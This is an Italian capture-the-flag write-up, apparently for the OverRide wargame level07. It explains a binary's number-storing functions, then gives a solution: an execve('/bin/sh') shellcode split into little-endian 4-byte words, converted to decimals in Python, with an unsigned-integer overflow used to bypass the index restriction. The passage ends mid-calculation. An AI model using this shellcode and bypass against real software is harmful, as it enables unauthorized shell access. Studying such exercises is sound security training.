 ### Funzione `read_number`
Richiede un numero tramite la funzione `get_unum` che verrà calcolato come indice del buffer
per stampare il valore al suo interno.

### Funzione `store_number`
Richiede il numero da salvare e in quale posizione, non permettendo l'inserimento nelle
posizioni divisibili per 3.

### Funzione `get_unum`
Si occupa di restituire il valore inserito dall'utente come numero intero senza segno e 
successivamente pulire lo standard input tramite la funzione `clear_stdin`.

### Funzione `clear_stdin`
Pulisce il buffer di input da qualsiasi altro carattere non catturato.

### Soluzione
Purtroppo non possiamo usare l'env per salvare lo shellcode, l'unica cosa scrivibile
è il buffer tramite la funzione `store_number`, dunque divideremo lo shellcode in gruppi
da 4 byte e li convertiamo come un unico numero decimale così da non creare problemi a
`scanf`, ma abbiamo un altro problema, ovvero che nelle posizioni divisibili per 3 non
possiamo scrivere, dunque bypassiamo il blocco sfruttando l'overflow dell'`unsigned int`.

Shellcode che useremo:
```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\x83\xe4\xf0\xcd\x80
```
Suddiviso e convertito in little endian tramite il programma in questa cartella:
```
0x6850c031
0x68732f2f
0x69622f68
0x50e3896e
0x31e18953
0x830bb0d2
0x80cdf0e4
```
Convertiamo in deciamale con python:
```
level07@OverRide:~$ python
Python 2.7.3 (default, Jun 22 2015, 19:33:41)
[GCC 4.6.3] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 0x6850c031
1750122545
>>> 0x68732f2f
1752379183
>>> 0x69622f68
1768042344
>>> 0x50e3896e
1357089134
>>> 0x31e18953
836864339
>>> 0x830bb0d2
2198581458
>>> 0x80cdf0e4
2160980196
```
Ora convertiamo gli indici 0, 3 e 6 nel seguente modo:
```
UINT_MAX -> 4294967295 + 1 = 4294967296

4294967296 / 4 + 0 = 1073741824
4294967296 / 4 + 3 = 1073741827
```
